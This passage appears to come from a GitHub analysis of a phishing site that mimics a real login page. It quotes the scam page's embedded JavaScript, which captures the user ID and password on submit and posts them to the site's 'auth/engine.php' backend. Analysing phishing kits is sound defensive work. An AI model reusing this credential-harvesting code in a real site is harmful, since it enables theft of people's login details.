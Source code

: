 <img src="Asset03-RealLogin.png" width="75%" height="75%"><br/>

It looks very convincing on first glance, and apart from the background image, both look nearly identical.

It is interesting to note that the scam site has a warning on scam calls. How ironic.



### Login Page (Javascript)

[Here is a dump of the scam login page.](Dump01-FakeLogin.txt)

When inspecting the scam login page, we find a snippet of Javascript code embedded within the HTML.

```Javascript
<script>
	const f4 = document.getElementById("form1");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("loginSub").innerHTML = "Processing...";
		var user = f4['user'].value;
		var pass = f4['pass'].value;
		
		if(user == "" || pass == ""){
			var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *Enter your UserID and Password";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("loginSub").innerHTML = "Login";
			return;
		}
		
	    	$.post("./auth/engine.php", {
			loader: "insertUser",
			user: user,
			pass: pass,
			status: 1
		}, function (data, resp) {
			console.log(data);
			window.location ="./loader.php";
			//checkStat(data);
		})
	})
```